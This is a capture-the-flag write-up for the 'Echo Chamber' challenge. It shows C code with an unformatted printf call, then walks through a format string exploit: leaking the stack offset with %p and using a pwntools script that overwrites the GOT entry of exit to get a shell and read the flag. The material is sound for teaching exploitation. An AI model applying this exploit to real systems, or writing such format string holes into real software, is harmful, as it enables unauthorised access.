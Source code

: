 # Echo Chamber

## Problem Statement

Okay, after getting pwned three times in a row i've decided enough is enough. I'm just going to let u list files on my
system. No shell for you!

Interact with the service at: `chals.t.cyberthon24.ctf.sg:33031`

Concept(s) Required:

- [Format String Bug (FSB)](https://www.youtube.com/watch?v=0WvrSfcdq1I)
- [GOT Overwrite with FSB write](https://www.youtube.com/watch?v=t1LH9D5cuK4)

Note: once you get a shell, the flag.txt can be found in the user's home directory.

## Solution

Inspecting the source file,

```c
void shell()
{
    system("/bin/sh");
}

void main()
{
    char input[256];

    ...

    fgets(input, 255, stdin);

    puts("ECHO:");
    printf(input);

    exit(0);
}
```

The use of `printf()` without specifying a format string leaves the program vulnerable to a format string bug. This bug
allows us to read from or write to arbitrary memory locations. Our goal is obviously to somehow call the `shell()` function.

We could override the address of the `exit` function in the last line with the address of `shell()`. This is known as GOT Overwrite.
But first, we need to find the offset before we begin to override the stack. We can just send a couple of `%p` and see where they appear in the stack.

```shell
Enter Input => %p %p %p %p %p %p %p %p
ECHO:
0x1 0x1 0x7ff6dbeac887 0x5 (nil) 0x7025207025207025 0x2520702520702520 0xa70252070252070
```
`0x7025207025207025` is the hex for `%p`, so we see that the offset is `6`.

Now using `pwntools`, it is fairly straightforward to do format string overwrite:

```python
from pwn import *

elf = context.binary = ELF("./echo_chamber", checksec=False)
payload = fmtstr_payload(6, { elf.got['exit']: elf.sym['shell'] })

r = remote("chals.t.cyberthon24.ctf.sg", 33031)
r.sendlineafter(b'=> ', payload)
r.sendline(b'cat ~/flag.txt')

r.interactive()
```
